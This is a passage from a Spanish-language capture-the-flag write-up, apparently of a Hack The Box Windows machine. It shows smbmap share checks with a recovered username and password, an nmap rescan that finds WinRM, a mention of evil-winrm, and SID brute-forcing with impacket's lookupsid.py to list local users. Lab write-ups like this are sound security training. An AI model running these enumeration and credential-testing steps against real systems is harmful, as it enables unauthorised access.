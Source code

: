 ```bash
❱ smbmap -H 10.10.10.149 -u 'hazard' -p 'stealth1agent'
[+] IP: 10.10.10.149:445        Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share  
        IPC$                                                    READ ONLY       Remote IPC
```

Ningún recurso útil ):

Probando en la web con las credenciales tampoco logramos nada nuevo. Entonces pensé que si no funcionan contra la web, probablemente no sea una explotación web lo que debamos hacer.

Entonces necesitaríamos algún servicio para probarlas, algo así como "**SSH**" así que recordé el servicio **WinRM** (que no fue descubierto en nuestro escaneo, pero pueda que simplemente se le haya pasado), así que volviendo a hacer el escaneo de **nmap** encontramos el puerto **5985**, el cual mantiene por lo general el servicio **WinRM**:

```bash
❱ nmap -p- --open -v 10.10.10.149 
...
Discovered open port 5985/tcp on 10.10.10.149
...
```

Y sí, estaba abierto, a veces pasa que el escaneo inicial no toma algunos puertos, entonces pues es bueno volver a ejecutarlo y así confirmamos o añadimos información.

> **WinRM** permite realizar tareas administrativas remotamente (en pocas palabras). [Intro WinRM Windows](https://geeks.ms/eliasmereb/2011/04/14/introduccin-a-winrm-para-windows-server-2008-r2/).

Nos podemos aprovechar de **WinRM** para explotarlo mediante la herramienta [evil-winrm](https://www.hackplayers.com/2019/10/evil-winrm-shell-winrm-para-pentesting.html), para en caso de contar con credenciales válidas, probablemente conseguir una **PowerShell** en el sistema.

Pero intentando con `hazard` no lo logramos ): Así que tamos F...

...

## Movimiento lateral : Enumerando usuarios locales [#](#movimiento-lateral-enum-users) {#movimiento-lateral-enum-users}

Siguiendo [esta guía](https://book.hacktricks.xyz/pentesting/pentesting-smb) para enumerar **SMB** encontramos una herramienta para probar:

> Enumerate local users with [SID](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/security-identifiers-in-windows) brute-forcing.

Apoyándonos del repositorio [impacket](https://github.com/SecureAuthCorp/impacket) usamos la herramienta [lookupsid.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py) para el brute-forcing:

```bash
❱ lookupsid.py SUPPORTDESK/Hazard:stealth1agent@10.10.10.149
Impacket v0.9.22.dev1+20200909.150738.15f3df26 - Copyright 2020 SecureAuth Corporation   

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
```